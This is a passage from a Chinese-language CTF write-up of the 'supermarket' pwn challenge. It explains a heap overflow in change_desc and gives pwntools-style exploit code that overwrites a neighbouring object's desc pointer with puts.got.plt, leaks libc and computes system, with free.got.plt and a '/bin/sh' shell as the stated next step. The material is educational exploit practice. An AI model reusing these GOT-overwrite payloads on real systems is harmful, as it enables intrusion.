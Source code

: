 	scanf("%d", &size);
	if (size < -20 || size > 20) {
		puts("you can't change the price");
		return 0;
	}
	*(*(0x804b080 + index) + 0x10) += size;
	if (*(*(0x804b080 + index) + 0x10) > 0 && *(*(0x804b080 + index) + 0x10) <= 0x3e7) {
		return 0;
	}
	puts("bad guy! you destroyed it");
	delete_com();	# 删除该index的com。		
}</pre>

函数功能也相对简单，并没有存在的漏洞。

程序的大致功能已经分析完毕，漏洞点识别到，利用思路：首先创建一个`com`为`'A'`并设置它的`desc_size`为`0x100`，接着使用`change_desc`函数修改`desc_size`的大小为`8`,紧接着创建第二个`com`为`'B'`并设置它的`desc_size`为`0x40`,此时再通过`change_desc`函数的溢出点修改`'A'`的`desc`来覆盖B中的内容，将相邻com中`desc 0x18`处存放的地址换成`puts.got.plt`的地址，然后通过`list_com`的函数就可以泄漏出puts在内存中的地址，然后通过偏移计算出`system`函数的地址；再通过同样的方式将`B`的`desc`地址替换成为`free.got.plt`,再通过`change_desc`直接编辑`'B'`的`desc`，就可以修改`free.got.plt`的函数地址，最后创建`com`为`'/bin/sh\x00'`，然后调用`delete`来指定该名字删除，就可以成功拿到shell

#### 0x02 漏洞利用分析 ####

对于这个漏洞利用的理解最好通过动态调试，来实时查看内存的布局

	add_com('a', 0x10, 0x100, 'AAAA')
	change_desc('a', 8, 'A'*7+'\x00')
	add_com('b', 0x10, 0x40, 'BBBB')

先创建`'a'`的`desc`大小为`0x100`,再修改`'a'`的`desc`的大小为`8`，接着创建`'b'`的`desc`大小为`0x40`.

![pwn]({{ '/images/201805/task_supermarket_2_1.png' | prepend: site.baseurl }})

通过`0x0804b080`可以看到我们已经创建的`'a'`和`'b'`的`com`地址，查看`'a'`的`desc`的地址为`0x08837028`,并且`desc_size`依然为`0x100`,因此在`change_desc`中修改`'b'`中的内容，此时`'b'`中的desc地址为`0x8837058`为了保证程序的一致性，我们就按照图中的内存布局来构造`payload1`

	payload1 = 'A'*7+'\x00' + p32(0) + p32(0x21) + 'b'+3*'\x00' + p32(0)
	payload1 += p32(0) + p32(0) + p32(0x10) + p32(0x40) + p32(puts_got)

构造完毕后，我们发送`payload1`

	change_desc('a', 0x100, payload1)

![pwn]({{ '/images/201805/task_supermarket_2_2.png' | prepend: site.baseurl }})

可以看到成功修改`'b'`中的`desc`地址为`pust.got.plt`，接着调用`list_com()`函数进行地址泄漏

![pwn]({{ '/images/201805/task_supermarket_2_3.png' | prepend: site.baseurl }})

成功泄漏地址`0xf7dacca0`,通过偏移计算`system`地址

	p.recvuntil('b: price.16, des.')
	puts_addr = u32(p.recv(4))
	print "[*] the puts addr is " + hex(puts_addr)
	system_addr = puts_addr - (libc.symbols['puts'] - libc.symbols['system'])
	print "[*] the system addr is " + hex(system_addr)

